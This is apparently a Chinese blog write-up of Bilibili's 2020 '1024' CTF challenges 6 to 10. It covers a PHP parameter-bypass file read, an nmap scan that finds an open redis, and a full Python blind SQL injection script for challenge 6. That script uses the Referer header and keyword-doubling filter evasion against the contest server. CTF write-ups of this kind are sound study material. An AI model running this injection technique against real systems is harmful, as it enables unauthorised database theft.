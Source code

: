 ```yaml
---
title: 哔哩哔哩 1024 安全挑战赛解题思路（后篇）
category: 
- CTF
tag: 
- CTF
- 哔哩哔哩
---
```

又名 bilibili 猜谜竞赛。被 W 拖来玩了。还挺有意思的。

这里是第六到第十题的题解。

<!-- more -->

## 六~十  结束亦是开始

> 结束亦是开始
> 
> 题目地址： http://45.113.201.36/blog/single.php?id=1

第七题到第十题的题面都是这一段：

> 接下来的旅程
> 
> 需要少年自己去探索啦～

另外说一下，原来的 IP 地址是 `120.92.151.189`。

## 十

打开网站。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_10-59-51.png)

……？blog？？？

转了一圈什么都没找到。在百无聊赖的时候我顺手把网站里的 single 改成了 test。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_11-36-24.png)

草。是 JSFuck。

解码似乎解不出什么。直接复制进 console 里运行一下。

```bash
var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
var str2 = "bilibili1024havefun";
console.log()
```

转换一下。

> 程序员最多的地方

那肯定是 GitHub 啊！

打开 GitHub，直接搜索 `bilibili1024havefun`。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_11-50-50.png)

成功找到了一个 php [interesting-1024/end](https://github.com/interesting-1024/end)。点开看看。

```php
<?php

//filename end.php

$bilibili = "bilibili1024havefun";

$str = intval($_GET['id']);
$reg = preg_match('/\d/is', $_GET['id']);

if(!is_numeric($_GET['id']) and $reg !== 1 and $str === 1){
	$content = file_get_contents($_GET['url']);
	
	//文件路径猜解
	if (false){
		echo "还差一点点啦～";
	}else{
		echo $flag;
	}
}else{
	echo "你想要的不在这儿～";
}
?>
```

把网址的 simple 换成 end，果不其然输出了“你想要的不在这儿～”。这个 php 里也没有什么东西。

那么就看看参数。我不是很懂 PHP，所以得搜一下是什么意思。

搜了一下，`intval()` 用来获取变量的整数值。`preg_match()` 不用猜都知道是正则。它匹配到的时候会返回一个整型返回值，`1` 是一维数组。那这个 PHP 的代码就好懂了。它要求一个变量 `id[]` （必须是一维数组），值等于 `1`（如果不传值是不会返回正确的图片的）。然后后面还会跟一个 `url=`。

那么就猜一猜 `url=` 的值是什么。那我盲猜有 flag。

curl 传过去发现不对。那继续猜。随便加个后缀什么的，比如 `.txt`，把它变成文件路径。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-48-48.png)

拿到一张图片。存到本地的时候发现文件里带了串奇怪的字符串。估计八成跟 flag 有关。

用 `cat` 命令看一下这张图片。果然文件最后跟了串字符串。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-58-48.png)

提交到第六题……居然不对？一个个试过去发现居然是第十题的……草。

看完这个文件后我的 PowerShell 也乱码了……草（二度（

## 八

回到这个 IP 地址。

反正也没什么事情做了，用 nmap 扫一遍它开启的端口与服务。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-18-05.png)

扫出来一个 redis。直接用 IP 地址和端口登上去。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_16-18-26.png)

第八题结束。

## 六

超出我能力范围了。直接上源码。

```python
import requests
url = 'http://120.92.151.189/blog/single.php?id=1'
flag = ''
for i in range(1, 100):
    left = 33
    right = 128

    while right-left != 1:
        mid = mid=(left+right)//2
        payload = "0123'^if(substr((selselectect flag from flag),{i},1)>binary {mid},(selecselectt 1+~0),0) ununionion selecselectt 1,2#".format(
            i=i, 
            mid=hex(mid))
        headers = {
            'Referer': payload
        }
        r = requests.get(url=url, headers=headers)
        if len(r.text) == 5596:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print(flag)
```

运行结果如图。

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_19-28-11.png)

## 七、九

仍然好奇下载下来的图片里，那个奇怪的字符串 `224a634752448def6c0ec064e49fe797`。

## 插曲

![](https://raw.githubusercontent.com/NachtgeistW/Berksey/master/_posts/image/2020-10-24-bilibili-ctf/2020-10-26_17-06-31.png)

还是免了吧。

## 用到的工具

- [在线unicode转中文,中文转unicode](https://www.bejson.com/convert/unicode_chinese/)
